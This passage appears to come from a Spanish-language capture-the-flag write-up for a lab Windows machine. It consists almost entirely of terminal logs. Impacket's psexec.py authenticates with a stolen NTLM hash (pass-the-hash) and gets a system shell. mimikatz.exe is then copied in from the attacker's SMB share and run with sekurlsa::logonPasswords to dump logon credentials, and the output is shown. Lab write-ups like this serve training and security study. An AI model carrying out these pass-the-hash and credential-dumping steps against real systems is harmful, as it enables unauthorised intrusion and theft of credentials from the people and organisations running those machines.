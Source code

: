 ```bash
❯ psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file whUEDSYi.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service MlrO on 10.10.10.63.....
[*] Starting service MlrO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Windows\Temp

C:\Windows\Temp> mkdir prives

C:\Windows\Temp> cd prives

C:\Windows\Temp\prives> copy \\10.10.14.12\parrotsec\mimikatz.exe mimikatz.exe      
        1 file(s) copied.

C:\Windows\Temp\prives> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Windows\Temp\prives

07/04/2023  12:54 AM    <DIR>          .
07/04/2023  12:54 AM    <DIR>          ..
09/19/2022  05:44 PM         1,355,264 mimikatz.exe
               1 File(s)      1,355,264 bytes
               2 Dir(s)   2,427,297,792 bytes free

C:\Windows\Temp\prives> 
```

Ahora lo ejecutamos 

```bash
C:\Windows\Temp\prives> .\mimikatz.exe "sekurlsa::logonPasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonPasswords

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 7/4/2023 12:09:01 AM
SID               : S-1-5-17
	msv :	
	tspkg :	
	wdigest :	
	* Username : (null)
	* Domain   : (null)
	* Password : (null)
```